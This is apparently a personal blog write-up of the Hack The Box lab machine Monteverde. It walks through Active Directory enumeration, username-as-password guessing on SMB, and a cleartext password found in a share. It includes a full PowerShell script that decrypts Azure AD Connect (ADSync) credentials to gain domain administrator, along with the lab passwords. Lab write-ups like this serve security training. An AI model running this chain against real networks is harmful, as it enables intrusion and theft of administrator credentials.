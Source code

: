 ```yaml
---
title: "HackThebox: Monteverde Writeup"
date: 2020-07-22 23:18:44 +0000
categories:
  - blog
tags:
  - CTF
  - HTB
  - English
---
```


This is my writeup of the box Monteverde on Hack The Box. It's a Windows box with difficulty rating medium. 

![Monteverde Profile](https://jackhack.se/assets/images/monteverde/machine_profile.png)
{: .full}
# Recon 

Initial scanning with nmap as usual

~~~
kali@kali:~$ nmap -sC -sV -oA initial 10.10.10.172 -T5 
~~~


~~~
# Nmap 7.80 scan initiated Mon Jun  1 16:18:29 2020 as: nmap -sC -sV -oA initial 10.10.10.172
Nmap scan report for 10.10.10.172
Host is up (0.041s latency).
Scanned at 2020-06-01 16:18:30 EDT for 315s
Not shown: 989 filtered ports
PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-06-01 19:32:12Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=6/1%Time=5ED562AB%P=x86_64-pc-linux-gnu%r(DNSVe
SF:rsionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\x
SF:04bind\0\0\x10\0\x03");
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -46m33s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 42256/tcp): CLEAN (Timeout)
|   Check 2 (port 2859/tcp): CLEAN (Timeout)
|   Check 3 (port 47166/udp): CLEAN (Timeout)
|   Check 4 (port 52281/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-06-01T19:34:35
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jun  1 16:23:45 2020 -- 1 IP address (1 host up) scanned in 315.71 seconds
~~~

Looks like mostly standard Active Directory ports, so i will run enum4linux to see if there is any interesting information to be recieved from smb/rpc, i will use the argument **-a** to do every basic enumeration (shares, users, groups etc.)

~~~
kali@kali:~$ enum4linux -a 10.10.10.172 
~~~
{: .language-bash}
Im mostly intrested in users to get an initial foothold on the machine:
~~~
 ============================= 
|    Users on 10.10.10.172    |
 ============================= 
 ---snip---
user:[Guest] rid:[0x1f5]
user:[AAD_987d7f2f57d2] rid:[0x450]q
user:[mhope] rid:[0x641]
user:[SABatchJobs] rid:[0xa2a]
user:[svc-ata] rid:[0xa2b]
user:[svc-bexec] rid:[0xa2c]
user:[svc-netapp] rid:[0xa2d]
user:[dgalanos] rid:[0xa35]
user:[roleary] rid:[0xa36]
user:[smorgan] rid:[0xa37]
---snip---
~~~

From here i tried to enumerate the SMB shares without credentials without luck, also enumerating the ldap service did not reveal any new information.

I began testing authenticating to the SMB shares with username:username credentials, with the argument **-L** to list shares.

~~~
smbclient -L 10.10.10.172 -U “username%username”

kali@kali:~$ smbclient -L 10.10.10.172 -U "SABatchJobs%SABatchJobs"

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	azure_uploads   Disk      
	C$              Disk      Default share
	E$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
	users$          Disk      
~~~
{: .language-bash}
# User 
After listing the directories i went on connecting to and browsing the hidden Users share and downloaded the whole share trough smbclient

~~~
kali@kali:~$ smbclient //10.10.10.172/users$ -U “SABatchJobs%SABatchJobs”

smb:\> recurse on
smb:\> prompt off
smb:\> mget * 
~~~
{: .language-bash}

The above command downloaded the user mhope's directory, containing a file named azure.xml
When checking the file there is a cleartext password inside. 

![XML Credentials](https://jackhack.se/assets/images/monteverde/xml_creds.png)
{: .full}
Now i proceed to connect to the machine via evil-winrm with the recently found credentials & grabbed the *user.txt* flag.



~~~
root@kali:~$ evil-winrm -i 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$'
~~~
{: .language-bash}

# Root

Before starting the privilege escalation i want to know what permissions this user might have so i start by checking what groups this user is a member of.

~~~
PS C:\Users\mhope\Documents> Get-ADPrincipalGroupMembership mhope | Select name

---snip---
Azure Admins
---snip---
~~~
{: .language-powershell}
I quickly found out there was an ADSync folder,so this domain uses Azure Active Directory for its infrastructure.

XPN has a great [article](https://blog.xpnsec.com/azuread-connect-for-redteam/) on abusing Azure AD Connect & it's database for privilegie escalation, also containing a script for retrieving the username and password for the SQL-user (probably administrator :))

The script would not run for me and it was really confusing, but when i read it again i payed attention to the initial connection string, i found the site  [connectionstrings](https://www.connectionstrings.com/sql-server/) to browse for other possible connection strings.

### Full script with non-working connection string:
~~~powershell
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Data Source=(localdb)\.\ADSync;Initial Catalog=ADSync"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()

$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()

add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)

$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerText}}

Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
~~~
{: .language-powershell}
### New connection string:
~~~
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=LocalHost;Database=ADSync;Trusted_Connection=True;"
~~~
{: .language-powershell}

Despite from the changed connection string i pasted the entire script into a file named exploit.ps1 on my Kali box, uploaded it via evil-winrm and executed it.

~~~
*Evil-WinRM* PS C:\Users\mhope\Documents> upload exploit.ps1
*Evil-WinRM* PS C:\Users\mhope\Documents> .\exploit.ps1

Domain: MEGABANK.LOCAL
Username: administrator
Password: d0m@in4dminyeah!
~~~
{: .language-bash}

I disconnected from the current Evil-WinRM shell and connected again using the administrator account.

~~~
kali@kali:~$ evil-winrm -i 10.10.10.172 -u Administrator -p 'd0m@in4dminyeah!'

~~~
{: .language-bash}
![Admin shell](https://jackhack.se/assets/images/monteverde/admin.png)
{: .full}


